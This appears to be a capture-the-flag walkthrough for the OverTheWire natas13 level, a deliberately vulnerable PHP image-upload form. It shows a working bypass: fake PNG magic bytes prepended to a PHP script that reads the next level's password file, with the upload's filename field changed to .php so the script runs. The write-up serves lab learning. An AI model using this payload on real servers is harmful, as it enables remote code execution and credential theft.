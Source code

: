 ```yaml
---
title: natas 13 walkthrough
description: over the wire natas 13
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-13 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 13 walkthrough
    order: 30
---
```

# Description
>    Username: natas13
> 
> URL:      http://natas13.natas.labs.overthewire.org
## Source Code
```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```


---
# Progress
## Observation
Apparently, we should bypass `exif_imagetype`. 
## Trial
Changing the file extension did not work.
Try to use fake [[File signatures]].
```bash
printf "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > test.png
```
Successfully bypass the check.
## Payload
Directly append the php code to png file signature.
```bash
printf "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > test.png
cat pwn.php >> test.png
```
where `pwn.php`
```php
<?php 
$filepath = "/etc/natas_webpass/natas14";
$myfile = fopen($filepath, "r") or die("Unable to open file!");
echo fread($myfile,filesize($filepath));
fclose($myfile);
?>
```
Failed. Server side did not execute the code.
## Final
The payload is fine. However, the file extension should be changed to php to execute the code.
`<input type="hidden" name="filename" value="yi78i3gdm1.php">`
�PNG  ****** 

---
# Hint

---
# Solving
## Category
- [[File upload vulnerability]]
## Techniques
- [[File signatures]]
## Tools
- 